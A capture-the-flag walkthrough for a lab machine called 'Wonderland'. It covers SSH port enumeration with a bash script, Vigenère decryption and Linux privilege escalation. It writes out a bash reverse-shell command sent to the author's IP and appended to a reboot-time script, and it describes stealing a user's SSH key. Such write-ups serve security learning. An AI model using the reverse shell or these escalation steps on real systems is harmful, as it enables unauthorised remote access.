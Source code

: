 # [THM-WALKTHROUGH] Wonderland

## *$ First Step : Enumeration*
I started to enumerate open ports with `nmap` but I was surprised seeing almost every port between 9000 and 13999 were running SSH. 

![image](https://user-images.githubusercontent.com/52162856/215579160-90b41c6d-c713-4b3a-861f-8b9cad7eee5e.png)

Then I started to process what to do and I came up with an idea. I wanted to create a script to see what they all give me as output but I firstly tried to make a connection to see what happens but I got this error. After few googlings I saw something that worked and solved the error.

![image](https://user-images.githubusercontent.com/52162856/215582546-430d4f5d-3558-48c2-b782-559bee84cc7b.png)

![image](https://user-images.githubusercontent.com/52162856/215582880-52d2d1b8-59cf-4109-b046-e79688917d21.png)

Added `HostkeyAlgorithms +ssh-rsa` in the file. And bingo ! 

![image](https://user-images.githubusercontent.com/52162856/215583146-d40b2d6d-7a5d-4c1d-ab5f-f73b02400775.png)

I tried with `alice` user because that seemed pretty adapted on the theme of the machine. The connection closed immediatly but something got me intrgued ... Why does it answer me 'Lower' ? So I wanted to know more about that and I tried with the highest port.

![image](https://user-images.githubusercontent.com/52162856/215583844-abca19d3-145b-46ea-a612-8d5a511da78f.png)

Now I see what to exploit in my script to guess what is the good port to look into. Let's it search for a while.

![image](https://user-images.githubusercontent.com/52162856/215592724-740c792d-adb6-455e-8ccb-c3199f0a4723.png)

This is the content of the script : 
```bash
#!/bin/bash

# Get only port numbers
ssh_port=`cat nmap_long.txt | grep unknown | cut -d '/' -f 1`
#echo $ssh_port

for i in $ssh_port 
do
                # -o permit to pass any option here : accept any new connection
                tmp=`ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=accept-new' -p $i alicet@10.10.122.174`
                echo $i
                echo $tmp | grep -vE 'Lower|Higher'
done
```
In the grep options are `-v` which takes anything that doesn't contain a string and `-E` which allows to pass regex in parameters and here it has to not contain "Lower" or "Higher".

It stopped at 10428 and by the way I constructed the script I tried 10429 

![image](https://user-images.githubusercontent.com/52162856/215596689-dcdf6313-00ee-4834-a8d2-cad174028b3d.png)

Nice ! I found it ... after a HUGE time !

Firstly it looked like caesar cipher so I tried to know the letter frequency and because I know The Jabberwocky is written in english I could guess the key shift for
decrypting the poem

![image](https://user-images.githubusercontent.com/52162856/215598104-91ea0c62-c148-4e3c-baf8-e0f5ea2826e1.png)

We can see the most used letters are 'l' and 't' but the problem is there is only one most used letter in english so that's not the good way to see. Then I spotted the little single quote so I guess it was vigenere cipher so I tried to solve it while incrementing the keylengh according to the response

![image](https://user-images.githubusercontent.com/52162856/215600971-955893fa-357c-4aee-be0f-a5177f764841.png)

It seems that this response have the best score and it also has the first word of the original poem in the good place so it looks like the good anwser. Let's try it.

![image](https://user-images.githubusercontent.com/52162856/215600865-524782f3-ce9e-4252-b6a9-78bedb312880.png)

I firstly tried to put the key into the input asked but without success. Then I tried to put that key on the solver to get the full text to see if something was hidden inside and I hit right. The end of the poem is the secret to enter.

![Capture](https://user-images.githubusercontent.com/52162856/215602763-935daf0c-a0a8-4ba4-b959-c9409434162a.PNG)

There it is !

![Capture](https://user-images.githubusercontent.com/52162856/215603085-79ad618f-f681-4cce-ba3c-64df9e20537a.PNG)

There is the first flag ! Mybe a little trick will be necessary ;)

![Capture](https://user-images.githubusercontent.com/52162856/215605001-ca88ef9f-1214-476d-9a65-7544b90cfcf4.PNG)


## *$ Second Step : Privilege Escalation*

![image](https://user-images.githubusercontent.com/52162856/215605538-22adf120-d9bf-4325-b4c7-1d37f908ea0a.png)

We can see here that there is a possibility to reboot the system as root but no payload is about that on GTFOBins. We got no more chance with capbilities and sticky bits enumeration ... Neither to see other users directories

![image](https://user-images.githubusercontent.com/52162856/215606484-694c84e8-e2b8-4687-8844-7236f1797039.png)

Let's try to use an automated tool : `LinPEAS.sh`, a tool used to search automatically vectors of Linux PrivEsc.

Did not be able to resolve github.com so I put it on my machine and download it with wget.

![image](https://user-images.githubusercontent.com/52162856/215608373-dbd365fd-de3d-4765-980a-75a3fad460d7.png)

I seen something that seems interesting ...

![image](https://user-images.githubusercontent.com/52162856/215611043-83f96f32-8e35-4d8c-8f3e-a2f122a29feb.png)

Back to reality !
![image](https://user-images.githubusercontent.com/52162856/215610472-14f861e0-87b3-4634-96ab-b1e09490cb4c.png)

It seemed that the crontab has a SGID, like we saw it in the `sudo -l` command. Let's take a look
![image](https://user-images.githubusercontent.com/52162856/215611279-c696c517-4c73-4c2b-b2b5-b62bcb6ef797.png)

The script we saw in the working directory runs at reboot... Maybe a chance to get a shell ?

![image](https://user-images.githubusercontent.com/52162856/215611542-25e51c06-054f-4015-a207-1529777798a2.png)

I did `echo "bash -i >& /dev/tcp/10.18.70.69/53 0>&1" >> twasBrillig.sh` to put the reverse shell in the script and it worked after a `sudo reboot` and starting a nc on my machine.
We are now Tweedledum ! 
![image](https://user-images.githubusercontent.com/52162856/215614807-c84eaf46-d26f-4376-8a5c-b0766e5ef0af.png)

Let's see what he has.

![image](https://user-images.githubusercontent.com/52162856/215615844-be9cc868-4e93-4f43-b803-75b81d3ec9b2.png)

Maybe we can try to crack it. The `hash-identifier` says that is SHA-256.

![image](https://user-images.githubusercontent.com/52162856/215616417-e481dc7b-81cd-46d0-975d-ae1734407591.png)

Seems to be interesting but I don't get it yet. Tried an other tool to seem with there was only 7/8 that was founded and I saw that : 

![image](https://user-images.githubusercontent.com/52162856/215617408-aec8f892-1579-4803-b0dd-35bb04a2c170.png)

The last one is not found too. Maybe it's not even a SHA256.

We can execute a shell as his twin Tweedledee but that seemed to be useless:

![image](https://user-images.githubusercontent.com/52162856/215615279-5d3d1379-65c5-4bd7-807a-2dca79c437d6.png)

I tried those but without success and I found it was HEX. 

![image](https://user-images.githubusercontent.com/52162856/215617742-62393f65-841c-4841-9c51-6e494533d780.png)

![Capture](https://user-images.githubusercontent.com/52162856/215618057-99f693a0-9ba4-412d-8887-b96ee71381b4.PNG)

We have a password ! That's cool ... but for what ? Let's go back to the shell.

To take a look at anything I tried to enumerate an other time users, and then I found out that a user has the same username as the name of the file we just cracked.
So let's try.

![image](https://user-images.githubusercontent.com/52162856/215619521-2ecc6580-aac8-4cc4-95ce-86086016ee85.png)

It seems that even if the working directory of alice can't be listed, we still can go in and have access to the `.ssh` directory.

![image](https://user-images.githubusercontent.com/52162856/215620341-a781032f-871e-4a61-bcb6-1704345a465f.png)

Did some netact and there it is on my machine.

![image](https://user-images.githubusercontent.com/52162856/215620802-1a19eb85-b930-4a83-a8d2-8def4b840eba.png)

We are now alice ! 

![image](https://user-images.githubusercontent.com/52162856/215621224-a36f080a-b8f6-40bd-adf8-607e6f6a9cc3.png)

With a bit of search I've been able to find the there is a very nteresting thing in the sudoers.d directory.
![image](https://user-images.githubusercontent.com/52162856/215622765-7d61309d-d386-4019-a90a-9c4c38d54c94.png)

I had to see on the help menu of `sudo` how to sudo with on a host and this is `--host` 

![image](https://user-images.githubusercontent.com/52162856/215623262-d97764be-bff1-4b4c-9e70-3c0c510ad034.png)

Same trick as the first one !
![Capture](https://user-images.githubusercontent.com/52162856/215623690-d17ae40b-93ea-4087-b774-7764127074f2.PNG)

FINALLY !! I never thought I will be able to root this machine !! It was reaaally long ! but it was in fact so fun. I'm happy to ended it and happy that is was so much difficult than the first of the serie. 
